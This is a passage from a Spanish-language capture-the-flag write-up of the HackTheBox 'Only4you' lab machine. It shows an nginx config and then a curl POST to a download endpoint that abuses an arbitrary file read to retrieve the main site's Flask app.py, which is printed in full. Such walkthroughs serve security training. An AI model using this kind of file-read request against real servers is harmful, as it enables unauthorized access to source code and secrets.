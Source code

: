 ```null
}

server {
	listen 80;
	server_name beta.only4you.htb;

        location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/beta.only4you.htb/beta.sock;
        }
}
```

Dispongo del código fuente para ```beta```, pero no para el dominio principal, así que me traigo el ```app.py```

```null
curl -s -X POST 'http://beta.only4you.htb/download' -d 'image=/var/www/only4you.htb/app.py'
from flask import Flask, render_template, request, flash, redirect
from form import sendmessage
import uuid

app = Flask(__name__)
app.secret_key = uuid.uuid4().hex

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        email = request.form['email']
        subject = request.form['subject']
        message = request.form['message']
        ip = request.remote_addr

        status = sendmessage(email, subject, message, ip)
        if status == 0:
            flash('Something went wrong!', 'danger')
        elif status == 1:
            flash('You are not authorized!', 'danger')
        else:
            flash('Your message was successfuly sent! We will reply as soon as possible.', 'success')
        return redirect('/#contact')
    else:
        return render_template('index.html')

@app.errorhandler(404)
def page_not_found(error):
    return render_template('404.html'), 404

@app.errorhandler(500)
def server_errorerror(error):
    return render_template('500.html'), 500

@app.errorhandler(400)
def bad_request(error):
    return render_template('400.html'), 400

@app.errorhandler(405)
def method_not_allowed(error):
    return render_template('405.html'), 405

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=80, debug=False)
```
